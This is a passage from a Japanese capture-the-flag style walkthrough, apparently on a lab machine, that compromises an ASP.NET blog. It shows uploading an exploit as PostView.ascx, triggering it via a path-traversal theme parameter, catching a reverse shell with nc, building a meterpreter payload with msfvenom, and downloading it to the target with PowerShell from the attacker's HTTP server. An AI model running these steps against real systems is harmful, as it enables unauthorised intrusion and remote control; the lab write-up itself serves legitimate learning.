 ![スクリーンショット 2020-05-04 21.55.49.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/633cb362-1373-5f8e-8095-45f1f292e857.png)
/admin/app/editor/editpost.cshtml の file manager から exploit（LHOST, LPORT を設定）を PostView.ascx として upload し、/?theme=../../App_Data/files にアクセスすることで exploit が実行されます

nc で待ち構えておくと shell をゲットできます。

```
kali@kali:~$ nc -lnvp 4445
listening on [any] 4445 ...
connect to [10.9.27.249] from (UNKNOWN) [10.10.138.175] 51217
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.

c:\windows\system32\inetsrv>
```

## meterpreterに繋ぎかえる
msfvenom で生成し、

```
kali@kali:~$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.9.27.249 LPORT=1111 -f exe -o sheshe.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                                         
[-] No arch selected, selecting arch: x86 from the payload                                                                                                                     
No encoder or badchars specified, outputting raw payload
Payload size: 341 bytes
Final size of exe file: 73802 bytes
Saved as: sheshe.exe
kali@kali:~$ python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...

```
先ほど取得した shell から DL して

```
C:\Users\Public>
powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.27.249:8000/sheshe.exe','sheshe.exe')"

C:\Users\Public>
dir
C:\Users\Public>dir
 Volume in drive C has no label.
 Volume Serial Number is 0E97-C552
 Directory of C:\Users\Public
05/04/2020  02:23 AM    <DIR>          .
05/04/2020  02:23 AM    <DIR>          ..
08/22/2013  08:39 AM    <DIR>          Documents
08/22/2013  08:39 AM    <DIR>          Downloads
05/04/2020  02:23 AM    <DIR>          Microsoft
08/22/2013  08:39 AM    <DIR>          Music
08/22/2013  08:39 AM    <DIR>          Pictures
05/04/2020  02:23 AM            73,802 sheshe.exe
08/22/2013  08:39 AM    <DIR>          Videos
               1 File(s)         73,802 bytes
               8 Dir(s)  39,054,577,664 bytes free

```
metasploit で multi/handler を待ち構えさせ、
